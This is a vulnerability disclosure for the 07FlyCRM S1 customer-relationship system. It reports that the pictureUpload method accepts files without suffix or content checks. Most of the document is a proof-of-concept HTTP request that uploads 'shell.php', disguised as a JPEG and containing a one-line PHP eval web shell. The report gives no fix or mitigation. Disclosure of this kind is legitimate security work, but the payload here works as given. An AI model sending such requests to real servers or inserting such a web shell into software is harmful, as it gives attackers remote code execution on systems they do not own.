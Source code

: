 # Vendor

零起飞

# Product

07FlyCRM

# version

S1

# Download 

https://gitee.com/07fly/FLY-CRM.git

# Vulnerability

FileUpload

# Description

In the 07fly crm S1 system, there is a File.php controller. The pictureUpload method in this controller can be used to upload files. There is no file suffix or file content filtering in this method.

# POC
```
POST /admin/File/pictureUpload HTTP/1.1
Host: 192.168.18.36
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=10b48aa3ee9e085706753d2e9a74d9f6; think_var=zh-cn; Hm_lvt_580632b24aea12910a1609b81ffaf23d=1728552028,1728555854; HMACCOUNT=4D4FE04291E73193; Hm_lpvt_580632b24aea12910a1609b81ffaf23d=1728556298
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Connection: close
Content-Length: 203

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php eval($_POST[1]);?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```
